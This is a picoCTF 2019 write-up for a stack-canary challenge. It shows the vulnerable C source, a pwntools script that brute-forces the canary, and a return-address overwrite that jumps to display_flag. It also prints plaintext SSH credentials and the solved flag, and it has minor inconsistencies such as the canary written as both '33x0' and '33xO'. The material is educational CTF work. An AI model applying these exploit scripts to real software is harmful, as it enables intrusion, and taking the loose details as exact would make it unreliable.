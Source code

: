 # Problem
This time we added a canary to detect buffer overflows. Can you still find a way to retreive the flag from this [program](https://2019shell1.picoctf.com/static/3b86c556e82a111455bdf574d9b3a9cf/vuln) located in /problems/canary_0_2aa953036679658ee5e0cc3e373aa8e0. [Source](https://2019shell1.picoctf.com/static/3b86c556e82a111455bdf574d9b3a9cf/vuln.c).

## Hints:

Maybe there's a smart way to brute-force the canary?

## Solution:

Lets download the files:
```bash
wget https://2019shell1.picoctf.com/static/3b86c556e82a111455bdf574d9b3a9cf/vuln
wget https://2019shell1.picoctf.com/static/3b86c556e82a111455bdf574d9b3a9cf/vuln.c
```

First, we investigate the source
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUF_SIZE 32
#define FLAG_LEN 64
#define KEY_LEN 4

void display_flag() {
  char buf[FLAG_LEN];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("'flag.txt' missing in the current directory!\n");
    exit(0);
  }
  fgets(buf,FLAG_LEN,f);
  puts(buf);
  fflush(stdout);
}

char key[KEY_LEN];
void read_canary() {
  FILE *f = fopen("/problems/canary_0_2aa953036679658ee5e0cc3e373aa8e0/canary.txt","r");
  if (f == NULL) {
    printf("[ERROR]: Trying to Read Canary\n");
    exit(0);
  }
  fread(key,sizeof(char),KEY_LEN,f);
  fclose(f);
}

void vuln(){
   char canary[KEY_LEN];
   char buf[BUF_SIZE];
   char user_len[BUF_SIZE];

   int count;
   int x = 0;
   memcpy(canary,key,KEY_LEN);
   printf("Please enter the length of the entry:\n> ");

   while (x<BUF_SIZE) {
      read(0,user_len+x,1);
      if (user_len[x]=='\n') break;
      x++;
   }
   sscanf(user_len,"%d",&count);

   printf("Input> ");
   read(0,buf,count);

   if (memcmp(canary,key,KEY_LEN)) {
      printf("*** Stack Smashing Detected *** : Canary Value Corrupt!\n");
      exit(-1);
   }
   printf("Ok... Now Where's the Flag?\n");
   fflush(stdout);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  int i;
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  read_canary();
  vuln();

  return 0;
}
```

We call ```buf```  with an offset of +- ```1``` to ```256```.

The strategy is to send a shellcode (with a [NOP sled](https://en.wikipedia.org/wiki/NOP_slide)).

Now lets write a simple python script:
```python
#!/usr/bin/env python

from pwn import *


debug = 0

user = 'RoeeSefi'
pw = 'UTTE9CQN2idX28W'

canary = ''

if not debug:
  s = ssh(host = '2019shell1.picoctf.com', user=user, password=pw)

  s.set_working_directory('/problems/canary_0_2aa953036679658ee5e0cc3e373aa8e0/')

while len(canary) < 4:
  for i in range(256):
    if debug:
      p = process('./vuln')
    else:
      p = s.process('./vuln')

    p.recvuntil('> ')
    p.sendline('{}'.format(32 + 1 + len(canary)))
    p.recvuntil('> ')
    p.sendline('A' * 32 + canary + '{}'.format(chr(i)))
    l = p.recvline()

    if '*** Stack Smashing Detected' not in l:
      canary += chr(i)

      log.info('Partial canary: {}'.format(canary))
      
      break

    p.close()

log.info('Found canary: {}'.format(canary))
```

And we found the canary: ```33x0```.

This this binary is have [PIE](https://access.redhat.com/blogs/766093/posts/1975793), the address of ```display_flag``` is randomed.
We need to randomize few bytes.

Let's debug and look at possible addresses:
```bash
gdb ./vuln

GNU gdb (Ubuntu 8.2.91.20190405-0ubuntu3) 8.2.91.20190405-git
Copyright (C) 2019 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from ./vuln...
(No debugging symbols found in ./vuln)
gdb-peda$ set disable-randomization off
gdb-peda$ b *main
Breakpoint 1 at 0xa05
gdb-peda$ r
Starting program: /home/roee/CTFs-Writeups/picoCTF-2019/Binary/09-canary-300/vuln 

Breakpoint 1, 0x5664ba05 in main ()
gdb-peda$ p display_flag 
$1 = {<text variable, no debug info>} 0x5664b7ed <display_flag>
gdb-peda$ r
Starting program: /home/roee/CTFs-Writeups/picoCTF-2019/Binary/09-canary-300/vuln 

Breakpoint 1, 0x56591a05 in main ()
gdb-peda$ p display_flag 
$2 = {<text variable, no debug info>} 0x565917ed <display_flag>
```

We can see that 3 bytes are being randomized. Let's use one of the addresses and execute it until we get the flag:
```python
#!/usr/bin/env python

from pwn import *


debug = 0

user = 'RoeeSefi'
pw = 'UTTE9CQN2idX28W'

if debug:
  p = process('./vuln')
else:
  s = ssh(host = '2019shell1.picoctf.com', user=user, password=pw)
  s.set_working_directory('/problems/canary_0_2aa953036679658ee5e0cc3e373aa8e0/')
  p = s.process('./vuln')

binary = ELF('./vuln')

canary = '33xO'

display_flag_randomized_address = 0x5664b7ed #binary.symbols['display_flag']

while True:
  print p.recvuntil('>')
  p.sendline('300')
  print p.recvuntil('>')
  p.sendline('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA' + canary + 'AAAABBBBCCCCDDDD' + p32(display_flag_randomized_address))
  flag = p.recvall()

  if 'pico' in flag:
    print flag

    break

  p.close()

  if debug:
    p = process('./vuln')
  else:
    p = s.process('./vuln')
```

finally we got it (well, probability of approx 16^(-3)):
```bash
 Input>
[x] Receiving all data
[x] Receiving all data: 1B
[x] Receiving all data: 72B
[+] Receiving all data: Done (72B)
[*] Stopped remote process 'vuln' on 2019shell1.picoctf.com (pid 1326573)
 Ok... Now Where's the Flag?
picoCTF{cAnAr135_mU5t_b3_r4nd0m!_069c6f48}
```

*Probably there is a better way...*

Flag: picoCTF{cAnAr135_mU5t_b3_r4nd0m!_069c6f48}
